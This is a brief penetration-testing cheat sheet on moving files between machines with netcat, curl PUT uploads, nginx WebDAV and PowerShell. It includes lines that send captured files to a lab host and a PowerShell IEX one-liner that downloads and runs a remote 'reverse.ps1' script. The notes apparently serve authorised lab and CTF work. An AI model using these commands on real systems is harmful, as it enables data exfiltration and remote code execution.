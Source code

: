 # File Transfers
[TOC]
###### tags: `Security`

# Reference
[offsecnewbie](https://guide.offsecnewbie.com/transferring-files)

# Unix
## netcat
* Receiver
    ``` ncat -l -n -v 90 > simpler.py ```
* Sender
    ``` cat simpler.py | nc 10.10.14.207 90 ``` `Ctrl-c`
    
## http - put
### python3 http.server
* Sender: upload - with put method
```
curl --upload-file TEST.txt --url http://192.168.8.9/TEST.txt --http1.0
```
* Receiver: http.server with put method
```
wget https://github.com/WildfootW/Security-utility-Scripts/blob/master/Network_Protocol/http.server_with-put.py
python3 http.server_with-put.py 80
```
### nginx
* Receiver
```
server {
    listen 8001 default_server;
    server_name wildfootw;
    location / {
        root /var/www/upload;
        dav_methods PUT;
    }
}
```
* Sender
```
curl --upload-file captured.cap 10.10.14.14:8001
```
   
# Powershell
[SANS blog](https://pen-testing.sans.org/blog/2017/03/08/pen-test-poster-white-board-powershell-one-line-web-client)
## Invoke-WebRuquest
### upoad - with put method
```
$FilePath = ".\TEST.txt"
$uri = "http://192.168.8.9/TEST.txt"

Invoke-WebRequest -uri $uri -Method Put -Infile $FilePath -ContentType 'text/plain' 
```

### download
```
Invoke-WebRequest -Uri "http://10.10.14.42/wmic_info.bat" -OutFile wmic_info.bat
```
### run sciprt
```
powershell IEX(New-Object Net.WebClient).downloadstring("http://10.10.14.42/reverse.ps1")
maybe you need use \" to escape
```

